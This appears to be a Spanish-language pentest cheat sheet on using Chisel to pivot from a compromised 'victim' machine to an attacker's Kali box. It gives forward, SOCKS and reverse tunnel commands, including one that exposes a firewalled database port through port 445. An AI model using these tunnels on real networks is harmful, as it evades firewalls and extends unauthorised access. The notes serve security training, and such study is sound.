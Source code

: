 # Chisel for pivoting

- [Descargar Chisel](https://github.com/jpillora/chisel/releases)

### Chisel en maquina victima:
- `./chisel server --socks5 --port 51234`

### Chisel en maquina atacante kali
- `./chisel client victim-box-ip:51234 127.0.0.1:8001:127.0.0.1:8001 127.0.0.1:8443:127.0.01:8443`
    - Con esto vemos esos puertos en nuestro local
- Si no también así: `./chisel client attack-box-ip:51234 R:8001:127.0.0.1:8001 R:8443:127.0.01:8443`

## Chisel con socks

### Maquina victima
- `./chisel server --socks5 --port 51234`

### Maquina atacante kali
- `./chisel client target-box-ip:51234 50080:socks`

# Reverse port forwarding
- Ejecutar chisel server en maquina atacante en modo reverso

### Chisel en maquina atacante kali
- `./chisel server --reverse --port 51234`

### Chisel en maquina victima
- `./chisel client attack-box-ip:51234 R:50080:socks`

#### Se puede combinar con ligolo + revert port por si no hay acceso SSH


## Ejemplo de uso de chisel para escuchar un puerto que el firewall no permite
- Caso hipotetico de que comprometimos un servidor que posee una base de datos pero no podemos acceder a ella porque el firewall no permite conexiones desde la red de la base de datos a la red de la victima.
- Hacemos un reverse port forwarding con chisel y escuchamos el puerto de la base de datos en la maquina atacante.

### Maquina atacante:
- `./chisel server --port 445 --reverse`

### Maquina victima:
- `.\chisel.exe client 192.168.45.210:445 R:1433:127.0.0.1:1433`
    - `chisel client KALI_IP:PORT R:PORT:LOCALHOST:PORT`
        - Si justo estamos usando el puerto 1433 en nuestro kali para otra cosa podemos usar otro puerto
        - ``.\chisel.exe client 192.168.45.210:445 R:15432:127.0.0.1:1433`